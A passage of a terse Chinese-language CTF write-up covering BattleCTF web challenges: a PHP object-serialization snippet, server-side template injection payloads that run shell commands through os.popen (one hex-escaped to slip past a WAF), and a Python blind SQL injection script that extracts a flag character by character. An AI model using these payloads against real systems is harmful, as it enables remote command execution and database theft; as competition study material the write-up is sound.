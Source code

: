 ```php
    var $du;
}
$a=new africa();
$a->du="flag";
$a->boknn=&$a->du;
echo(serialize($a));
```
### Cobalt Injection
ssti,没过滤

---
```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```
### Africa
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230625001448.png)
http头大考验

### Cobalt Injection 2
#ssti
开了waf的ssti

---
*payload*
```shell
{{request[%27application%27][%27\x5f\x5fglobals\x5f\x5f%27][%27\x5f\x5fbuiltins\x5f\x5f%27][%27\x5f\x5fimport\x5f\x5f%27](%27os%27)[%27popen%27](%27ls%27)[%27read%27]()}}
```

### Perfect Timing
一个登录页面,直接万能密码可以登录进去
但是没有任何功能点
#sql  
sql盲注
```python
import requests
host="http://chall.battlectf.online:8087/index.php"

def sqli(pos,mid):
    data = {
        "username":"boxy_mcbounce' OR ascii(substr((select group_concat(fl4g) from f1ag),%i,1))>%i -- -" % (pos,mid),
        "password":"a",
        "submit":'Login'
    }
    
    r = requests.post(host, data=data)
    return "Invalid" not in r.text

def get_char(pos):
    lo, hi = 32, 128
    while lo <= hi:
        mid = lo + (hi - lo) // 2
        if sqli(pos, mid):
            lo = mid + 1
        else:
            hi = mid - 1
    return chr(lo)

cok = ''
for i in range(1, 100):
    cok += get_char(i)
```